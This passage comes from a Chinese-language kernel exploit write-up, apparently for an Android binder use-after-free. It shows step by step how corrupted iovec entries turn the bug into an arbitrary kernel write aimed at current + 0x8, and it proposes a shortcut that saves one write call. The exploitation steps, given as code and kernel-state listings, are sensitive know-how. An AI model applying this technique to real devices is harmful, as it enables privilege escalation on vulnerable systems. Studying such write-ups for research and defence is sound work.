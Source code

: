 ```c
    current + 0x8,                          // 同上
    8                                       // 可写可不写，为了视觉美观还是写
    // 注意这里没有 0xfffffffffffffffe 了！因为中间要单独写 1 字节来重新计算长度以进入最后一个 iovec，所以这里不能一起写入，不然会写到 &bio.iovs[12].iov_base 上，没卵用
};
```

按以下步骤执行：

1. 写 0x10001 字节垃圾数据

   写完后 iov_iter 为：

   ```c
   struct iov_iter {
   	size_t iov_offset;       // 0
   	size_t count;            // (0x10001 + 2 * 0x10 + 1 + 8) - (0x10001) = 0x29
       const struct iovec *iov; // &bio.iovs[10]
   };
   ```

2. 触发漏洞

   ```c
   bio.iovs[9].iov_base  = dummy_page;
   bio.iovs[9].iov_len   = 0x20002;                   // 他（spinlock）改变了 iov_len
   bio.iovs[10].iov_base = &binder_thread->wait.head; // 原地 TP，指向 &bio.iovs[9].iov_len
   bio.iovs[10].iov_len  = &binder_thread->wait.head;
   bio.iovs[11].iov_base = (void *)0xbeefdead;
   bio.iovs[11].iov_len  = 8;
   ```

   没有读写动作，iov_iter 没变。

3. 写入 `second_write_chunk`. 这次它只有 0x20 字节，且比那个大的可怕的 iov_len 短得多，不会进入下个 iovec. 写完以后情况为：

   ```c
   bio.iovs[9].iov_base  = dummy_page;    // 没被写，反正跳过了无所谓
   bio.iovs[9].iov_len   = 0x20002;       // 没被写，反正跳过了无所谓
   bio.iovs[10].iov_base = dummy_page;    // 被写了，等会写一字节的时候会变成写到这里
   bio.iovs[10].iov_len  = 2 * 0x10 + 1;  // 被写了，写回了正常值，下次再 write 就能进下个 iovec 了
   bio.iovs[11].iov_base = current + 0x8; // 被写了，这是我们真正需要写入的地址
   bio.iovs[11].iov_len  = 8;             // 被写了，写进了一样的内容，就当作没变过吧

   // second_write_chunk 是 0x20 大，在写完后 iov_iter 变为
   struct iov_iter {
   	size_t iov_offset;       // 0x20
   	size_t count;            // (0x10001 + 2 * 0x10 + 1 + 8) - (0x10001 + 0x20) = 9
       const struct iovec *iov; // &bio.iovs[10]
   };
   ```

   > 这篇文档写到这里，似乎发现了一个新方法：在 second_write_chunk 里面覆盖 `bio.iovs[10].iov_base` 的时候，直接写进 `目标地址(current + 8) - 0x10`，iov_len 写成 `0x10 + 目标长度(8)`，删掉第二个 iovec. 这样一来，写完 0x10 大的 second_write_chunk 以后直接开一次新的 write 写目标数据是不是就好了？可以省一次 write 调用。

4. 写入一个字节。重新进入 `copy_to_iter()`，用刚写好的正确长度计算复制长度，会进入下个 iovec.

